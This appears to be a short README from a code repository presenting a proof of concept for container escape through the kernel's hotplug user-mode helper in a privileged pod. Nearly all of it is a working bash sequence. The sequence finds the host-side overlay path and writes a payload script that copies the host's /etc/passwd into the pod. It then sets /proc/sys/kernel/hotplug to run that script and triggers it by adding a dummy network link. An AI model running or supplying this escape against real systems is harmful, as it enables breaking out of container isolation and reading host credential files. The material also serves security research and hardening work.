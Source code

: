 # Container Escape via `/proc/sys/kernel/hotplug` 

> Proof-of-concept demonstrating container escape by leveraging the kernel’s hotplug user-mode helper.

---

## Environment Requirements

- Privileged pod/container

## Proof-of-Concept


```bash
# run the folliwng commands inside the pod

# Extract the OverlayFS upperdir path, which maps to a real directory on the host
host_path=$(sed -n 's/.*upperdir=\([^,]*\).*/\1/p' /proc/mounts)

# Create a payload script that will be executed by the kernel
echo '#!/bin/sh' > /tmp/payload.sh

# The payload reads sensitive host information and writes it to a file inside the pod
echo "cat /etc/passwd > $host_path/output.txt" >> /tmp/payload.sh

# Make the payload executable
chmod a+x /tmp/payload.sh

# Set the kernel's hotplug handler to point to the created payload 
echo "$host_path/tmp/payload.sh" > /proc/sys/kernel/hotplug

# optional: install -y iproute2

# Trigger a hotplug event to invoke the kernel's helper (our payload)
ip link add dummy0 type dummy

```


